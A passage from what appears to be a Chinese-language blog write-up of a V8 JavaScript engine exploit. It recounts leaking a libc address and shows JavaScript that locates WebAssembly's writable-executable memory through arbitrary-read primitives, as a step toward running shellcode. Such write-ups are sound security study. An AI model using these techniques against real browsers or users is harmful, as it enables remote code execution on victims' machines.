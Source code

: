 完整的利用见附录。

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/5ufCKv.png)

**写利用的时候碰到了很多看似玄学的东西，困扰了很久，为了彻底搞懂花费了不少时间。虽然最很多自己想出的解决方案也都没什么营养，但最终把问题搞明白也是一个非常煎熬也是非常有意思的过程。比如在泄漏libc地址的时候，成功泄漏了main_arena+152的地址，但是后来去内存里了一看，fd的位置的值是0x0。查了好几遍都没找到，实在是很玄学，直到我在泄露前下了一个断点，发现泄露当时这个fd是存在的，只不过后来又被malloc掉了。毕竟我们利用js泄露地址时，并没有控制EIP，所以背后的程序还是在跑，堆空间也总是在变化。**

**Wasm执行shellcode**

Wasm是一种可以让JS执行机器码的技术，我们可以借助Wasm来写入自己的shellcode。

要生成Wasm，最方便的方案是直接用大神写好的生成网站，可以将我们的C语言生成为调用Wasm的JS代码。

[https://wasdk.github.io/WasmFiddle/](https://wasdk.github.io/WasmFiddle/)

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/kWYsBe.png)

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
console.log(wasmInstance.exports.main());
```

将网站底部生成的wasmCode和右上角的JS代码结合，就能运行C编译出的字节码。当然这个C并不能进行系统调用，所以直接用C写shellcode自然是不行的。不过我们可以通过自己的任意地址写，将自己的shellcode写入Wasm的RWX内存区域（但是并不是Wasm的AST，具体的我也不是特别了解）。

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
let f=wasmInstance.exports.main;

%DebugPrint(f);
let asm_addr=wr.leak_obj(f);
console.log("[*]address of asm = "+hex(asm_addr));
let sharedInfo =wr.read(asm_addr+0x18)-1;
let functionData=wr.read(sharedInfo+0x8)-1;
let instanceAddr=parseInt(wr.read(functionData+0x70)/0x10000);
console.log("functionData addresss ="+hex(functionData));
console.log("[*] RWX address ="+hex(instanceAddr));
```

通过leak_obj函数将WASM的地址泄露，然后通过WASM的结构（在release下）一步步将RWX空间读取出来。需要注意的是根据不同版本的v8，数据结构可能不同 ，所以需要更具实际调试结果为准。此处的结构如下

****wasmInstance.exports.main f-&gt;shared_info-&gt;code+0x70****

[![](./img/199702/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/nU6RUE.png)
